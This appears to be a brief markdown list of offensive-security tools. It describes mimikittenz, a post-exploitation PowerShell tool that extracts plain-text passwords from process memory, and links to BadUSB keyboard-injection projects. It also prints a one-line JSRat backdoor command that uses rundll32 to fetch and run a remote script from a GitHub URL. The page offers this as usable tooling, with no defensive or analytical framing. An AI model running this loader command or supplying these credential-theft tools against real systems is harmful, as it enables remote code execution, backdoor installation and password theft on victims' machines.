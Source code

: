 # mimikittenz
- mimikittenz is a post-exploitation powershell tool that utilizes the Windows function ReadProcessMemory() in order to extract plain-text passwords from various target processes.
- mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns.

https://github.com/putterpanda/mimikittenz

# Javascript-Backdoor(JSRat)
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
```

# BadUSB
- https://thehackerway.com/2017/07/10/badusb-ultra-low-cost/
- https://github.com/ernesto-xload/DigisparkKeyboard
- https://github.com/ernesto-xload/arduino_keyboardlib
- https://github.com/ernesto-xload/DigisparkKeyboard
